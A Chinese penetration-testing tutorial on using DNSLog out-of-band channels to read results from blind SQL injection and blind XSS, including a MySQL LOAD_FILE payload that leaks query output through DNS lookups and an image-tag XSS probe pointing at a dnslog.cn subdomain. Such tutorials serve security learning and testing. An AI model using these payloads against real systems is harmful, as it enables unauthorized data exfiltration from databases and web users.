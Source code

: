 **目录**

[DNSLog](#t0 "DNSLog ") 

[SQL盲注回显](#t1 "SQL盲注回显")

[无回显的XSS](#t2 "无回显的XSS")

[更多盲打Payload](#t3 "更多盲打Payload")

* * *

> 在[渗透测试](https://so.csdn.net/so/search?q=%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95&spm=1001.2101.3001.7020)中，当我们碰到无回显的漏洞是非常难利用的。一是我们不知道存不存在漏洞，二是我们不知道漏洞执行的结果。因此，针对无回显的漏洞，我们可以通过使用DNSLog来进行回显。DNSLog是一种回显机制，攻击者可以通过DNS的解析日志来读取漏洞执行的回显结果。  

DNSLog 
-------

首先，我们都知道DNS的解析过程，递归查询和迭代查询相结合，传送门：[DNS解析过程](https://xie1997.blog.csdn.net/article/details/82752515#DNS%E8%A7%A3%E6%9E%90%E8%BF%87%E7%A8%8B%C2%A0 "DNS解析过程 ") 

这里我们可以控制的是域名的DNS服务器，也就是如下的 "baidu.com" 的DNS服务器。我们只需要搭建一个的DNS服务器，并将要盲打或盲注的回显，放到自己域名的二级三级甚至更多级的子域名上去请求，就可以通过DNS解析日志来获取到它们。

![](https://img-blog.csdn.net/20181018160157176?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

**DNSLog部署过程：**

*   申请一个域名，如 xie.com
*   在我们的VPS上安装并配置DNS服务器
*   将 xie.com 的DNS服务器设置为我们的VPS地址
*   这样，所有访问 xie.com 的二级三级四级等等子域名都会被解析到我们的VPS上。我们就可以通过查询DNS解析记录来获得命令执行的回显了。

但是由于部署非常麻烦，所以我们可以通过一些在线的DNSLog平台：

*   [http://ceye.io](http://ceye.io/ "http://ceye.io")
*   [http://www.dnslog.cn](http://www.dnslog.cn/ "http://www.dnslog.cn")

### SQL盲注回显

不管是布尔类型盲注还是时间盲注，都需要发送大量的数据包去判断数据，而这很可能会触发WAF的防护，因此导致被封IP。所以，如果条件允许，我们可以结合DNSlog来快速的回显数据。MySQL数据库，通过DNSlog盲注需要用到 load\_file() 函数，该函数不仅能加载本地文件，同时也能对URL发起请求。因为需要使用 load\_file() 函数，所以需要root权限，并且 secure\_file\_priv 需要为空。传送门：[MySQL数据库中的文件操作函数(load\_file()、into outfile、into dumpfile)](https://blog.csdn.net/qq_36119192/article/details/100862012#MySQL%E6%95%B0%E6%8D%AE%E5%BA%93%E4%B8%AD%E7%9A%84%E6%96%87%E4%BB%B6%E6%93%8D%E4%BD%9C%E5%87%BD%E6%95%B0%28load_file%28%29%E3%80%81into%20outfile%E3%80%81load%20dumpfile%29 "MySQL数据库中的文件操作函数(load_file()、into outfile、into dumpfile)")

Payload如下：

```
SELECT LOAD_FILE(CONCAT('\\\\',(要查询的语句),'.xx.xx.xx\\abc'));
```


执行的语句 

![](https://img-blog.csdnimg.cn/20200401222531432.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

DNSLog平台收到的DNS查询

![](https://img-blog.csdnimg.cn/20200401222548105.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 无回显的XSS

**payload**

```
<img src=http://hf8r67.dnslog.cn>
```


**DNSLog平台收到的DNS查询**

即可证明存在XSS

![](https://img-blog.csdnimg.cn/20200401223457262.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 更多盲打Payload

更多漏洞的Payload，查看ceye的后台，

![](https://img-blog.csdnimg.cn/20201019210641861.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/2020101921112197.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200401224001246.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

 参考文章：[使用DNSLOG拯救你的盲打盲注](https://www.freebuf.com/column/184587.html "使用DNSLOG拯救你的盲打盲注")